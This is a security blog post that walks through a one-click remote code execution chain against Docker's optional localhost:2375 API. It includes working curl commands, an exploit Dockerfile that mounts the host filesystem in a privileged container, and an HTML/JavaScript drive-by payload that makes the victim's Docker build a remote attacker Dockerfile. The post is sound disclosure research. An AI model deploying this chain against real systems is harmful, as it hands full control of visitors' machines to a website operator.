 ```yaml
---
layout: post
title: Developing a Docker 1-Click RCE chain for fun
description: >
  In this blog post we will explore the possibility of abusing Docker's API to achieve a 1-click RCE chain.
sitemap: false
hide_last_modified: true
---
```


## Preface
I'd like to preface this post by highlighting that this chain requires users to enable a specific setting in their Docker settings. Default installations are secure but if you are a regular Docker user then please make sure that you have this option disabled as otherwise you are vulnerable to RCE.

## Docker
When developing CTF challenges I often make use of Docker for its simple deployments and security guarantees. It was during some recent CTF-related endeavours that I happened upon the following configuration option for Docker which caught my eye.

![Docker API Setting](/assets/img/blog/docker_daemon_setting.png)

The configuration option is pretty simple; it will expose the "Docker API" on port 2375. Docker's official website provides a description of this API.

> The Docker Engine API is a RESTful API accessed by an HTTP client such as wget or curl, or the HTTP library which is part of most modern programming languages.

At the current time of writing the latest version is 1.47 and its endpoints are documented [here](https://docs.docker.com/reference/api/engine/version/v1.47/).

This poses the question; *why the strict warning?* Of course having access to this API allows you to create containers and execute code. The daemon also makes it possible to escalate your priveleges to the host machine. There have been many cases of attacks against exposed Docker APIs in the past but this is due to the API being made accessible to the outside world. Surely having it bound to localhost is fine?

## Abusing the API
As previously mentioned; attacks against exposed Docker APIs are pretty well defined. In fact, PayloadAllTheThings has an exploit script for exactly this case [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Docker%20API%20RCE.py).

The aforementioned exploit script fetches all container IDs and then runs a specific command inside of them. This is good for a general proof of concept but leaves a lot unexplored. *What if there's no containers?* *How do we get root access in the host context?* *What if the network configuration doesn't allow a callback?*

### Creating Containers

We can answer the first question pretty easily. The Docker API defines an endpoint to create your own containers. Using this, we can simply create our own. To escalate our privileges then we can make use of the `HostConfig` option on the endpoint, particularly the `Binds` part which allows us to create containers with read-write references to the host filesystem.

```bash
curl -X POST -H "Content-Type: application/json" -d '{"image": "alpine","Tty":true,"OpenStdin":true,"Privileged":true,"AutoRemove":true,"HostConfig":{"NetworkMode":"host","Binds":["/:/mnt"]}}' http://localhost:2375/containers/create?name=shell
```

*To avoid mounting to WSL in Windows you can define a mount to `C:/` and access the Windows filesystem*

This will spawn a container which gives the full host filesystem in `/mnt` within the container and allows us to modify and read these files.

### Starting Containers
Once a container is created, we can start it using the `/containers/<name>/start` endpoint.

Since we passed a `?name=shell` parameter on the previous example we already defined our container name to be `shell` so we can use that.

```bash
curl -X POST http://localhost:2375/containers/shell/start
```

### Executing Commands
Above we have created a container with a mount to the host filesystem. To escalate our priveleges further we want to overwrite files on the host system.

The Docker API also provides a means of executing commands in our newly created container. Namely `/containers/shell/exec` which accepts a `Cmd` POST parameter and returns an `exec_id` and `/exec/<exec_id>/start` endpoint which allows us to run the command.

So we can use something like `jq` to parse the output of the first command, save it as an environment variable and use it in the second command to automate this.

```bash
exec_id=$(curl -s -X POST -H "Content-Type: application/json" -d '{"AttachStdin":false,"AttachStdout":true,"AttachStderr":true, "Tty":false, "Cmd":["mkdir", "/mnt/tmp/pwned"]}' http://localhost:2375/containers/shell/exec | jq -r .Id)
curl -X POST "http://localhost:2375/exec/$exec_id/start" -H "Content-Type: application/json" -d '{"Detach": false, "Tty": false}'
```

Since the command to execute is `mkdir /mnt/tmp/pwned` this will create a directory named `pwned` in our `/tmp` directory on the *host* filesystem.

## One-Click RCE
So at this point you should have a good idea of how we can exploit an exposed Docker API. This gave me an idea though; since this runs on `localhost:2375` is there a way for us to abuse this through a browser? That is, could we find a way of exploiting a user who visits our website and has this service running on their localhost?

### SOP
One of the main obstacles to this is Same-Origin Policy which prevents websites from interacting with endpoints of a different origin. There are some tricks to bypass this restriction; redirecting to a URL is usually not blocked. However, most of the important endpoints on the Docker API are POST.

Another common strategy is defining a HTML form with an action pointing to a remote resource and submitting it using javascript's `form.submit()` call. This would allow us to send a single POST request (along with URL parameters) to the API. The problem is that the API seems to be strictly `application/json` and the forms do not support that.

So, can we find an endpoint that will allow us to do everything we need with just a POST primitive?

### Image Builds
I tried a number of different endpoints until I eventually discovered `/build`

![build endpoint](/assets/img/blog/build_endpoint.png)

Interestingly, it accepts URL parameters. The most interesting here was `remote` which allows you to specify a remote URL for a `Dockerfile` and it will install and run the build. I built a HTML form on my website and tested this out to verify it works.

```html
<form action="http://localhost:2375/build?remote=https://<snip>/Dockerfile">
  <input id="btn" type="submit">
</form>
<script>document.getElementById("btn").click();</script>
```

Visiting the above page built my remote Dockerfile into an image.

### Abusing Image Builds
It turns out that image builds take place in their own short-lived container. Here, we can define what gets installed and run arbitrary commands. This gave me an idea for a sort of *"inception"* attack. Could we use the docker image build process to interact with the API *again* but this time using curl where we can set the `application/json` content type.

Well no... Because the build process wouldn't have access to `localhost` on the host machine. Here is where I noticed another optional parameter.

![networkmode parameter](/assets/img/blog/networkmode_option.png)

Aha! We can set the `networkmode` to `host` and this will allow us to interact with `localhost` on the host machine by referencing `host.docker.internal` host. This way we can create a Dockerfile which creates a mounted container to the host, runs commands to overwrite host files and all from them simply visiting our website which submits a form. 😱

## Putting it all Together
Below is my Dockerfile exploit.

```Dockerfile
FROM alpine:latest

RUN apk add --no-cache curl jq

RUN curl -X POST -H "Content-Type: application/json" -d '{"image": "alpine","Tty":true,"OpenStdin":true,"Privileged":true,"AutoRemove":true,"HostConfig":{"NetworkMode":"host","Binds":["C:/:/mnt"]}}' http://host.docker.internal:2375/containers/create?name=shell
RUN curl -X POST http://host.docker.internal:2375/containers/shell/start
RUN exec_id=$(curl -s -X POST -H "Content-Type: application/json" -d '{"AttachStdin":false,"AttachStdout":true,"AttachStderr":true, "Tty":false, "Cmd":["mkdir", "/mnt/tmp/pwned"]}' http://host.docker.internal:2375/containers/shell/exec | jq -r .Id) && curl -X POST "http://host.docker.internal:2375/exec/$exec_id/start" -H "Content-Type: application/json" -d '{"Detach": false, "Tty": false}'
```

Then all we need is a website to complete the POST to `http://localhost:2375/build?remote=http://<snip>/Dockerfile&networkmode=host` for it to execute. You can use the form above or simply run the follow javascript.

```javascript
fetch("http://127.0.0.1:2375/build?remote=https://<snip>/Dockerfile&networkmode=host", {method: "POST", mode: "no-cors"})
```

## Final Remarks
I think there is some more potential to expand from here. If we could build the image using GET then it'd make for a useful SSRF -> RCE gadget. This post was a bit rushed as I wanted a placeholder for my new blog so feel free to reach out to me on X ([@LooseSecurity](https://x.com/loosesecurity)) if you think there's more I could add to this.

I also wanted to point out that I did the *responsible thing* and checked with Docker Security before posting this and it is indeed an accepted risk that if you toggle this option then you are wide open to exploitation.